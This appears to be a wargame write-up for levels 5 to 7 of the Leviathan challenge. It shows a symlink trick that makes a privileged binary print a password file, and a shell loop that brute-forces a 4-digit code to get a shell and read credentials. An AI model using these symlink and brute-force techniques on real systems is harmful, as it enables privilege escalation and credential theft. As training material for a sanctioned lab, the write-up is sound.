 ## Level 5 
In this level we have a binary which cats the content of a file called /tmp/file.log and then removes that file, by calling unlink.
So we simply link /tmp/file.log to our passwordfile.

    leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
    leviathan5@leviathan:~$ ./leviathan5
    ******

## Level 6

    leviathan6@leviathan:~$ ./leviathan6 
    usage: ./leviathan6 <4 digit code>
    leviathan6@leviathan:~$ ./leviathan6 1111
    Wrong
    leviathan6@leviathan:~$ ./leviathan6 2222
    Wrong

Okay, so we have to guess a password. Since there are not that many
possibilities we can resolve to brute-forcing. The script then drops us to a
shell and we can retrieve the password for the next level.

    leviathan6@leviathan:~$ for i in $(seq 9999); do ./leviathan6 $i; done|grep -v Wrong
    -bash: fork: retry: No child processes
    -bash: fork: retry: No child processes
    -bash: fork: retry: No child processes
    -bash: fork: retry: No child processes
    -bash: fork: retry: No child processes
    -bash: fork: retry: No child processes
    -bash: fork: retry: No child processes
    -bash: fork: retry: No child processes
    -bash: fork: retry: No child processes
    -bash: fork: retry: No child processes
    whoami
    leviathan7
    cat /etc/leviathan_pass/leviathan7
    ******
    exit

## Level 7
Well, actually this is not really a level. Just some congratulations, that we
made it.
